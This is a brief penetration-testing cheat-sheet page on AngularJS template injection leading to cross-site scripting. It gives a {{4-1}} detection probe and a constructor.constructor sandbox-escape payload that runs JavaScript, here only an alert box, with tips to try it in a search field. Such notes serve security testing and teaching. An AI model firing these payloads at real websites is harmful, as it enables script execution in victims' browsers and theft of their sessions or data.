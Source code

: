 # Angular XSS via TJ template injection

## XSS via Angular TJ template injection <a id="via-angulattj-template-injection"></a>

`payload = {{4-1}}`

**→ if response = {{4-1}} &gt; not vulnerable  
→ if response = 3 -&gt; template injection !**

`payload = {{constructor.constructor('alert("XSSSS")')()}}`  
 

#### note **** = must be angular &gt;= 1.6.0

Older \(see portswigger link\)

![](../../../.gitbook/assets/54e9e5bef36c4f4eac4d855db9c7cc40.png)

**Use the payload in a search field:**

![](../../../.gitbook/assets/8e771d3bbce040b487c5e11a3bb0ea9d.png)

* Check Angular version :

`console / angular.version`

